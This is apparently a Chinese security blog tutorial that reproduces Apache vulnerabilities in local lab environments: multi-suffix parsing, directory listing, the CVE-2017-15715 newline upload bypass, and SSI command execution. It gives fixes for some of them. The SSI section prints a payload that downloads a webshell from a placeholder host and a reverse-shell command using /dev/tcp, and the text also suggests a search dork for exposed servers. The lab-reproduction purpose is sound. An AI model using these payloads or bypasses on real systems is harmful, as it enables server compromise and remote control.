



Apache中间件漏洞复现
关于apache
apache简介
Apache HTTP Server（简称Apache）是Apache软件基金会的一个开放源码的网页服务器，可以在大多数计算机操作系统中运行，由于其多平台和安全性被广泛使用，是最流行的Web服务器端软件之一。它快速、可靠并且可通过简单的API扩展，将Perl/Python等解释器编译到服务器中。
Apache的目录结构：
- bin——-存放常用的命令工具，例如httpd
- cgi-bin—存放Linux下常用的命令，例如xxx.sh
- conf——Linux的配置相关文件，例如httpd.conf
- error—–错误记录
- htdocs—-放网站源码
- icons—–网站图标
- logs——日志
- modules—扩展模块
- manual—-手册
apache原理介绍:
要讲到的Apahce的漏洞必须要理解Apache的运行原理。

图中简易描述了Apahce与PHP配合完成了一次WEB请求，Apahce在前，PHP在后，那两者之间如何进行通信的呢？先了解下PHP的架构。如下图

- Zend Engine是PHP的底层实现，包含编译和执行，底层由C语言实现。
- Zend API、Zend Extension API是基于Zend底层对外封装提供服务。
- Extendions使用Extension API实现了扩展库、标准库，例如各种内置函数、MySQL连接库等
- SAPI是重点，全称是Server Application Programming Interface，也就是服务端应用编程接口。PHP就是通过它来和Apache、Nginx、FastCGI交互
- Application是最上层，也就是我们写的PHP代码了
Apache本身是不支持PHP解析的,通过架构图我们可以知道是通过SAPI进行通信，那Apache如何和SAPI通信呢？Apache怎么知道什么类型的文件要解析为PHP？如果你手动搭建过Apache解析PHP的环境，就肯定了解这两个步骤：
1 |
|
Apache通过LoadModule来加载php5_module模块（php5apache2_2.dll），这样做的目的是让Apache加载php5_module模块来解析PHP文件。意思其实就是用LoadModule来加载php5_module。也就是把php作为Apache的一个子模块来运行。当通过Web访问php文件时，Apache就会调用php5_module来解析php代码。
调用过程可以概括为
1 | HTTP->Apahce->php5_module->sapi->php。 |
Apache 文件解析漏洞
漏洞原理
Apache文件解析漏洞与用户的配置有密切关系，严格来说属于用户的配置问题。Apache文件解析漏洞涉及到一个解析文件的特性。Apache默认一个文件可以有多个以点分隔的后缀，当右边的后缀无法识别，则继续向左识别，发现后缀是php,交给php处理这个文件。
漏洞复现
我们首先打开phpstudy，切换apache版本为5.2.17.

我们在本地网站根目录下新建文本文档写入任意字母。

我们尝试修改后缀名为不存在的.456，然后在本地访问该文件


发现仍然可以成功读取
我们继续修改后缀名


发现服务器仍然可以解析
我们修改为.php.360尝试，依然可以成功解析。


那么我们在文件上传时就可以利用Apache的解析特性进行绕过
漏洞修复
在httpd.conf或httpd-vhosts.conf中加入以下语句，从而禁止文件名格式为.php.\的访问权限：
1 | <FilesMatch ".(php.|php3.|php4|php5.)"> |
Apache 目录遍历漏洞
漏洞原理
目录遍历（路径遍历）是由于web服务器或者web应用程序对用户输入的文件名称的安全性验证不足而导致的一种安全漏洞。使得攻击者通过利用一些特殊字符就可以绕过服务器的安全限制，访问任意的文件（可以是web根目录以外的文件），甚至执行系统命令。
程序在实现上没有充分过滤用户输入的../之类的目录跳转符，导致恶意用户可以通过提交目录跳转来遍历服务器上的任意文件。
漏洞复现
我们打开phpstudy.
然后在本地网站根目录下新建多个子目录

我们此时访问网站

可以看到很明显的index of标志,说明此时存在目录遍历
我们可以在谷歌中通过 intitle ：index of来帮我们寻找目录遍历漏洞
漏洞防御
在httpd.conf文件中找到Options + Indexes + FollowSymLinks + ExecCGI并修改成
Options -Indexes + FollowSymLinks + ExecCGI并保存（把+修改为-）

Apache换行解析漏洞
转载：https://github.com/zhangzhenfeng/vulhub/tree/master/httpd/CVE-2017-15715
（我按该文章复现的以下两个漏洞，人懒就直接复制了。。。。）
影响版本：Apache 2.4.0~2.4.29
影响说明：绕过服务器策略，上传webshell
环境说明：PHP5.5 、 Apache2.4.10
环境搭建：
此次环境使用docker环境搭建，环境采用地址Vulhub，环境文件有3个
- Dockerfile(apache环境)
- docker-compose.yml（compose文件，在此环境中意义不大）
- index.php（源文件缺少前台源码，已补全）
执行构建环境命令如下（启动后在浏览器中访问http://127.0.0.1:8080）
1 | docker-compose build |
漏洞原理：
Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。
漏洞复现：
接下来通过实验的方式复现整个利用过程，首先先确认环境中的配置文件是否是<FilesMatch .php$>，路径为/etc/apache2/conf-available/docker-php.conf，该路径取决于apache2的目录，在搭建环境的时候不同apache版本路径可能不同，在Linux下的apache目录下执行grep -rn “FilesMatch” * 即可搜索到。（在FilesMatch中的定义是将.php为后缀的文件解析为PHP，如果将其改为.(php|html)$的话，html中的php也会被解析。）
按照正常的漏洞利用步骤将其复现
0x01 抓包／改包
准备工作：将浏览器的代理打开、将burpsuit打开开启抓包。
访问漏洞页面http://IP:8080/index.php可以看到

点击submit进行上传，burp可以抓到

上图中最下面标红的地方是index.php代码中获取文件名的位置，但现在为空，需要填写上phpinfo.php1，后缀加1的目的是占位，下一步将1改为0x0a，点击上面红色箭头指向的Hex，将包修改为以下内容：

改完后将数据包给服务器，此时在浏览器中访问http://IP:8080/phpinfo.php%0a便可以看到phpinfo的界面，说明利用成功。
在Windows下的表现
将漏洞代码复制到windows的环境中，进行访问、抓包（和文章中在Linux的方法一样），最终会出现以下问题：

根据上图可以发现，move_uploaded_file函数已经被执行了，说明我们绕过了黑名单的检测，只不过在windows创建文件的时候由于结尾是换行符，windows不允许，所以创建失败了。
index.php源码
1 |
|
Apache SSI远程命令执行漏洞
转载：https://github.com/zhangzhenfeng/vulhub/tree/master/httpd/ssi-rce
影响版本：Apache全版本（支持SSI与CGI）
影响说明：绕过服务器策略，上传webshell
环境说明：PHP7.1 、 Apache2.4.25
环境搭建：
此次环境使用docker环境搭建，环境采用地址Vulhub，环境文件有2个
- docker-compose.yml
- upload.php
执行构建环境命令如下（启动后在浏览器中访问http://127.0.0.1:8080）
1 | docker-compose build |
漏洞原理
SSI（server-side includes）:是放置在HTML页面中的指令，它可以将动态生成的内容添加到现有的HTML页面，而不必通过CGI程序或其他动态技术来提供整个页面。以上是定义采用在Apache官网对SSI的定义，说白了就是可以在HTML中加入特定的指令，也可以引入其他的页面。开启SSI需要单独配置Apache，可以参考SSI配置。
SSI可以完成查看时间、文件修改时间、CGI程序执行结果、执行系统命令、连接数据库等操作，功能非常强大。
我们要利用的就是SSI执行系统命令的功能，正常的一个包含SSI指令的文件，可以如下内容：
1 | <pre> |
文件名保存为test.shtml，这个后缀取决于Apache的配置，默认是此后缀。
当后台对扩展名校验不严格时，可以上传此类型文件，达到执行命令，获取webshell的目的。执行效果：

上传webshell：
1 | <!--#exec cmd="wget http://xxx/shell.txt | rename shell.txt shell.php" --> |
反弹shell：
1 | <!--#exec cmd="/bin/bash -i > /dev/tcp/192.168.0.118/8888 0<&1 2>&1" --> |
漏洞复现：
正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

成功上传，然后访问shell.shtml，可见命令已成功执行：